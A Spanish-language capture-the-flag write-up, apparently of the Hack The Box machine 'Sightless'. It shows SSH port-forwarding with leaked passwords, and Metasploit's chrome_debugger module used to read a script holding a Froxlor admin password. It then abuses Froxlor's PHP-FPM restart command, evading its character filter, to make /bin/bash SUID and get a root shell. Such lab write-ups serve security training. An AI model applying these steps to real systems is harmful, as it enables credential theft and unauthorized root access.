

Y también nos encontramos un hash que podemos intentar crackear.


Agregamos el subdominio al `/etc/hosts`, esta vez tiene que apuntar a mi máquina local por el port-forwarding.
Mientras, en segundo plano estoy intentando crackear el hash.


Acabamos en la misma instancia.


Hay una vulnerabilidad RCE pero necesito credenciales.

## Abusing Chrome Debugger
Pasando el `linpeas` encontramos algo interesante, un script en python `/home/john/automation/administration.py` que se ejecuta a través de una tarea CRON.


Me topé [este artículo en Medium](https://blog.pentesteracademy.com/chrome-debugger-arbitrary-file-read-1ff2c41320d1) donde se habla de leer archivos de forma interna utilizando el Chrome Debugger que hemos detectado anteriormente.

Vemos que se está ejecutando en el puerto 56893 por la línea del `linpeas` que hemos encontrado, `--port=56893`

Hacemos el port-forwarding.
```console
$ sshpass -p 'insaneclownposse' ssh -L 56893:127.0.0.1:56893 michael@sightless.htb
Last login: Mon Sep  9 18:16:26 2024 from 10.10.14.143
michael@sightless:~$
```

Y siguiendo el artículo, vamos a utilizar el módulo `use auxiliary/gather/chrome_debugger` de `metasploit`

Al intentar ejecutarlo no conseguí nada.
```console
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> exploit
[*] Running module against 127.0.0.1

[-] Auxiliary failed: NoMethodError undefined method `pop' for {"value"=>{"error"=>"unknown command", "message"=>"unknown command: unknown command: json", "stacktrace"=>"#0 0x55cfd03d0e43 <unknown>\n#1 0x55cfd00bf4e7 <unknown>\n#2 0x55cfd01266b2 <unknown>\n#3 0x55cfd012618f <unknown>\n#4 0x55cfd008ba18 <unknown>\n#5 0x55cfd039516b <unknown>\n#6 0x55cfd03990bb <unknown>\n#7 0x55cfd0381281 <unknown>\n#8 0x55cfd0399c22 <unknown>\n#9 0x55cfd036613f <unknown>\n#10 0x55cfd008a027 <unknown>\n#11 0x7f756d2c4d90 <unknown>\n"}}:Hash
[-] Call stack:
[-]   /usr/share/metasploit-framework/modules/auxiliary/gather/chrome_debugger.rb:58:in `run'
[*] Auxiliary module execution completed
```

Investigando mas encontré [este post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) sobre pentesting chrome-debugger.

Primero vamos a hacer port-forwarding a todos los puertos extraños porque no estoy seguro de que puerto es el del servicio del `chrome-debugger`

> [!NOTE]
> Hay que tener en cuenta que hay una tarea que cada X tiempo cambia los puertos por lo que seguramente los puertos correspondientes al `chrome-debugger` vayan cambiando y no sean iguales en vuestra máquina que en este write-up

```console
michael@sightless:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:38313         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53031         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35171         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
              
```

Vamos a hacer forwarding de los puertos `56947`, `40667` y `35171`
```console
$ sshpass -p 'insaneclownposse' ssh -L 38313:127.0.0.1:38313 -L 53031:127.0.0.1:53031 -L 35171:127.0.0.1:35171 michael@sightless.htb
Last login: Mon Sep  9 19:12:07 2024 from 10.10.14.143
michael@sightless:~$ 
```

Ahora podemos abrir Google Chrome y dirigirnos a `chrome://inspect/#devices`


Configure -> Agregamos todos los puertos que nos hemos encontrado.


Ahora podemos ver que existen dos sesiones abiertas.


Si le damos a Inspect vemos que se inicia sesión.



Podemos dirigirnos al apartado `Network` y cuando se realiza el inicio de sesión, ver el paquete que viaja y conseguimos ver la contraseña del administrador de `Froxlor`


admin -> ForlorfroxAdmin

Ahora si cambiamos el RPORT en nuestro `metasploit`...

```console
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> set RPORT 38313                                                                       
RPORT => 38313                                                                                                                                    
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> set FILEPATH /home/john/automation/administration.py                                  
FILEPATH => /home/john/automation/administration.py                                                                                               
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> show options

Module options (auxiliary/gather/chrome_debugger):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   FILEPATH  /home/john/automation/administration.py  no        File to fetch from remote machine.
   RHOSTS    127.0.0.1                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                                                /using-metasploit.html
   RPORT     38313                                    yes       The target port (TCP)
   TIMEOUT   10                                       yes       Time to wait for response
   URL                                                no        Url to fetch from remote machine.


View the full module info with the info, or info -d command.

```

Y lanzamos el exploit vemos que funciona.
```console
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> run
[*] Running module against 127.0.0.1

[*] Attempting Connection to ws://127.0.0.1:38313/devtools/page/EDBE76992E58EE5D22113DC4554FC3DE
[*] Opened connection
[*] Attempting to load url file:///home/john/automation/administration.py
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Stored file:///home/john/automation/administration.py at /home/pointedsec/.msf4/loot/20240909232032_default_127.0.0.1_chrome.debugger._972889.txt
[*] Auxiliary module execution completed
```

Este es el script y podemos ver la credencial también. `ForlorfroxAdmin`
```python
<html><head><meta name="color-scheme" content="light dark"></head><body><pre style="word-wrap: break-word; white-space: pre-wrap;">#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.common.exceptions import UnexpectedAlertPresentException
from selenium.common.exceptions import NoAlertPresentException
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.support import expected_conditions as EC
import time
import threading
import schedule

options = Options()
options.add_argument('--headless')
options.add_argument('--no-sandbox')
options.add_argument('--disable-dev-shm-usage')

# Update this line with the path to your locally downloaded Chrome driver
chrome_driver_path = '/home/john/automation/chromedriver'

# Use Service to specify the Chrome driver binary path
service = Service(chrome_driver_path)
service.start()

driver = webdriver.Chrome(service=service, options=options)

def dismiss_all_alerts(driver):
    while True:
        try:
            alert = driver.switch_to.alert
            print(f"Dismissed alert with text: {alert.text}")
            alert.accept()
            time.sleep(1)
        except NoAlertPresentException:
            break

print("browser opened")
while True:
    try:
        driver.get("http://admin.sightless.htb:8080/admin_logger.php?page=log")
        time.sleep(7)

        # Username Field
        input_element = driver.find_element(By.ID, "loginname")
        input_element.send_keys("admin")

        # Password field
        input_element = driver.find_element(By.ID, "password")
        input_element.send_keys("ForlorfroxAdmin" + Keys.ENTER)
        print("Logged In...")
    except UnexpectedAlertPresentException:
        input_element.send_keys(Keys.ENTER)
        pass
    time.sleep(5)
    dismiss_all_alerts(driver)
    driver.get("http://admin.sightless.htb:8080/admin_index.php?action=logout")
    driver.get("http://admin.sightless.htb:8080/")
    print("Logged Out")
    time.sleep(3)
    #driver.close()
</pre></body></html>
```

Ahora hacemos Port-Forwarding a la instancia de Froxlor.
```console
$ sshpass -p 'insaneclownposse' ssh -L 8083:127.0.0.1:8080 michael@sightless.htb
Last login: Mon Sep  9 19:12:47 2024 from 10.10.14.143
michael@sightless:~$ 
```

Y ahora podemos iniciar sesión en `Froxlor`



Después de un rato de investigación encontré lo siguiente, podemos cambiar la configuración de `FastCGI (FPM)` ya que `Froxlor` se está ejecutando como `root`


Existe un campo que corresponde a un comando que se ejecutará cuando este servicio se reinicie. Podemos intentar settear la `/bin/bash` con permisos de SUID para escalar privilegios.


Pero vemos este error, esto es porque el comando no permite algunos caracteres especiales como `+`


Pero podemos ejecutar este comando en formato dígitos y así no usamos el carácter `+`.


Si le damos a `Save` vemos que se guarda.

Ahora podemos dirigirnos a `Settings -> PHP-FPM` y vemos que está habilitado `php-fpm`


Ahora lo desactivamos -> Save.


Y lo volvemos a activar -> Save, de esta forma forzamos que el servicio se reinicie y se ejecute el comando que hemos especificado.


Y ya podemos lanzarnos una `bash` como `root`
```console
michael@sightless:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
michael@sightless:~$ bash -p
bash-5.1# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)
bash-5.1# 
```

Podemos leer la flag de `root`
```console
bash-5.1# cat /root/root.txt 
67649d7de01791...
```

¡Y ya estaría!

Happy Hacking! 🚀